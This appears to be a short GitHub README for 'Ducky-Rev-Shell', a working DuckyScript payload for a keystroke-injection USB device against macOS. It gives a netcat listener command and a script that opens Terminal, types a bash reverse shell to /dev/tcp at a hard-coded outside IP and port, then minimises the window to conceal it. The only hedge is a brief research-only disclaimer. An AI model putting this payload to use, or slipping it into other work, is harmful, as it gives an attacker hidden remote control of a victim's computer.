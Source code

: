 # Ducky-Rev-Shell
Duckyscript in a bash file to get a reverse shell on MacOS.

## DISCLAIMER: <p>This is for security research purposes ONLY. Only use on machines where you have permission or your own.</p>

## Setting up Listener
Listener set up command for Windows.
Run 
  nc -lvnp 87 -s 173.255.247.6
in Powershell, replacing the IP and port with relevant ones.

# DuckyScript Code
<code><pre>DELAY 50
COMMAND SPACE
DELAY 50
STRING TERMINAL
DELAY 50
ENTER
STRING bash
DELAY 50
ENTER
DELAY 50
STRING bash -i >& /dev/tcp/173.255.247.5/87 0>&1
REM Replace IP and port above with listening host
DELAY 50
ENTER
DELAY 50
COMMAND M
DELAY 50
</pre></code>

